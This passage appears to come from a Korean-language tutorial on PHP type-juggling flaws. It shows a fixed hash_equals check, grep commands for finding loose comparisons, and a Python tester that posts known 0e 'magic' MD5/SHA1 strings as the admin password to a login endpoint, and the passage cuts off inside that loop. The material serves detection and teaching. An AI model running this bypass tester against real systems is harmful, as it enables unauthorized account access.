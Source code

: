```php
        if (!hash_equals($expected, $token)) {
            abort(419, 'Token mismatch');
        }
        
        return response()->json(['status' => 'verified']);
    }
}
```

## 🔍 취약점 탐지 방법

### 1. 정적 코드 분석

```bash
# PHP에서 위험한 느슨한 비교 패턴 검색
grep -r "==" . --include="*.php" | grep -v "===" | head -20

# 특히 위험한 패턴들
grep -r "\$.*==.*\$" . --include="*.php"
grep -r "if.*==.*MD5\|SHA1\|hash" . --include="*.php"
grep -r "password.*==" . --include="*.php"
```

### 2. 동적 테스트 도구

```python
import hashlib
import requests

class TypeJugglingTester:
    def __init__(self, target_url):
        self.target_url = target_url
        self.magic_strings = []
        self.generate_magic_strings()
    
    def generate_magic_strings(self):
        """0e로 시작하는 해시를 생성하는 문자열들"""
        known_md5 = [
            '240610708',    # MD5: 0e462097431906509019562988736854
            'QNKCDZO',      # MD5: 0e830400451993494058024219903391
            'aabg7XSs',     # MD5: 0e087386482136013740957780965295
            '0e1137126905', # 직접적인 0e 문자열
        ]
        
        known_sha1 = [
            'aaroZmOk',     # SHA1: 0e66507019969427134894567494305185566735
            'aaK1STfY',     # SHA1: 0e76658526655756207688271159624026011393
        ]
        
        self.magic_strings.extend(known_md5)
        self.magic_strings.extend(known_sha1)
    
    def test_authentication_bypass(self):
        """인증 우회 테스트"""
        for magic_string in self.magic_strings:
            data = {
                'username': 'admin',
                'password': magic_string
            }
            
            response = requests.post(f"{self.target_url}/login", data=data)
            
            if "success" in response.text.lower():
```